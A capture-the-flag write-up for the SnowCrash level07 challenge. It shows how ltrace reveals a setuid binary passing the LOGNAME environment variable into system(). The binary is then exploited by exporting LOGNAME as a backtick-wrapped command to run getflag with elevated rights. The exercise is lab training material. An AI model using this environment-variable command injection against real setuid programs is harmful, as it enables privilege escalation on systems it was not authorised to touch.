 ## Level 07

## Clues

```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$
```

Another executable to trick

```
level070xb7fed280@SnowCrash:~$ ./level07
level07
```

It print "level07", maybe it is printing the current user ?

Lets see what it calls :

```
level07@SnowCrash:~$ ltrace ./level07 
...                                                                                                              = 0
getenv("LOGNAME")   //     BIG MISTAKE                                                                                                                                                       = "`getflag`"
asprintf(0xbffff744, 0x8048688, 0xbfffff67, 0xb7e5ee55, 0xb7fed280)                                                                                                            = 20
system("/bin/echo `getflag` "Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)
...
level07@SnowCrash:~$ 
```



![Snowcrash](./BIG%20MISTAKE%20GIF.gif)
```
getenv("LOGNAME")
```

## Solution

Very easy level, the executable seems to be using the LOGNAME environnement variable to print the current user.


So the solution is pretty easy


```
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```

Easy one


## What i learned

More curiosity

More ltrace and strace utility